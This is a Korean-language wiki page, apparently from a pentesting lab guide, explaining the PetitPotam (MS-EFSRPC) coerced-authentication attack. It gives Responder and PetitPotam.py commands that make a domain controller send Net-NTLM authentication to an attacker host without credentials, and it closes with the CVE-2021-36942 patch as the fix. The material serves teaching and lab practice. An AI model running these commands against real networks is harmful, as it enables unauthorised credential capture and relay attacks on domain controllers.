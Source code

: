 # MS-EFSRPC - Petitpotam



![](../../.gitbook/assets/petitpotam.drawio.png)

MS-EFSRPC RPC 함수들은 원격 호스트의 파일을 암호화하고 백업을 도와주기 위해서 만든 RPC이다.&#x20;

2021년 7월경 [@topotam](https://github.com/topotam) 이라는 해커가 MS-EFSRPC 와 관련된 RPC 함수들 중 몇가지가 강제 인증에 취약하다는 사실을 발견했다. 또한, 몇 몇 RPC 함수들은 도메인 유저 인증이 아예 필요없이 강제 인증이 가능했다. 마지막으로, 모든 도메인 컨트롤러들이 취약한 상태에 놓여있었다. Topotam은 이 강제 인증 공격을 "PetitPotam" 이라고 이름을 붙였다.&#x20;

### 실습&#x20;

Petitpotam 과 자주 쓰이는 공격은 ADCS - ESC8 페이지에서 정리한다. 이 실습에서는 간단하게 Petitpotam 을 이용해서 도메인 컨트롤러의 NTLM 인증 트래픽을 받는다. 사용할 Petitpotam.py 툴은 [여기서 다운](https://github.com/topotam/PetitPotam) 받는다.&#x20;

1. NTLM 인증 트래픽을 받을 Responder 세팅&#x20;

```
responder -I <NIC> -v 
responder -I eth1 -v 
```

2\. Unauthenticated Petitpotam 을 이용해 유저 계정 없이 Petitpotam 공격&#x20;

```
python3 Petitpotam.py <공격자 IP> <타 IP> 
python3 PetitPotam.py 192.168.40.182 192.168.40.160
```

공격 결과 확인&#x20;

![](<../../.gitbook/assets/image (4) (2) (2).png>)

3\. Responder 를 통해서 도메인 컨트롤러의 Net-NTLM 인증 트래픽 확인&#x20;

![](<../../.gitbook/assets/image (5) (2).png>)

### 대응 방안&#x20;

Petitpotam 과 관련된 [패치](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942)는 2021년 8월달에 발표됐다. 패치를 적용하면 유저 인증이 필요한 Petitpotam이나 필요없는 Petitpotam이나 모두 통하지 않는다.&#x20;



### 레퍼런스&#x20;

{% embed url="https://github.com/topotam/PetitPotam" %}

{% embed url="https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31" %}
